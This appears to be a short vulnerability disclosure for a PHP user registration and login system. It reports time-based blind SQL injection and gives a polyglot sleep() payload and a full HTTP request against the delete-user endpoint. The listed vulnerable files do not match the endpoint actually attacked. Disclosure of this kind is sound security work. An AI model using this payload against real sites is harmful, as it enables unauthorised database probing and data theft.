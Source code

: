 ## User Registration and Login System by rems has SQL Injection (Time-based Blind SQLi)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



dbname = registration_login_db

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: endpoint/delete-user.php?user=(select(0)from(select(sleep(4)))v)/*'%2B(select(0)from(select(sleep(4)))v)%2B'"%2B(select(0)from(select(sleep(4)))v)%2B"*/

```
GET /endpoint/delete-user.php?user=(select(0)from(select(sleep(4)))v)/*'%2B(select(0)from(select(sleep(4)))v)%2B'"%2B(select(0)from(select(sleep(4)))v)%2B"*/ HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

```

1. sleep(10)
![Alt text](image-2.png)

2. sleep(15)
![Alt text](image-3.png)
